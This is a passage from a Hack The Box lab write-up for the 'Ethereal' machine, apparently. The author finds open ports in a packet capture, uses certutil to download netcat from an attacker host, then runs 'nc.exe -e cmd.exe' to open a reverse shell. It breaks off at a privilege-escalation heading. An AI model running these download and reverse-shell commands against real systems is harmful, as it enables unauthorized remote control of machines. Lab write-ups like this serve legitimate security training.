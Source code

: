From the pcap, I identified inbound connections on port 73 and 136.

![](/assets/images/htb-writeup-ethereal/wireshark.png)

Now, we just need to get netcat uploaded to the server and try to get a proper shell.

First, let's start an HTTP listener on port 73 to host nc.exe, then issue `certutil.exe -urlcache -split -f http://10.10.14.23:73/nc.exe c:\users\public\desktop\shortcuts\nc.exe`

And finally, spawn a netcat connection with `c:\users\public\desktop\shortcuts\nc.exe -e cmd.exe 10.10.14.23 136`

We finally got a shell!

![](/assets/images/htb-writeup-ethereal/shell1.png)

### Privesc

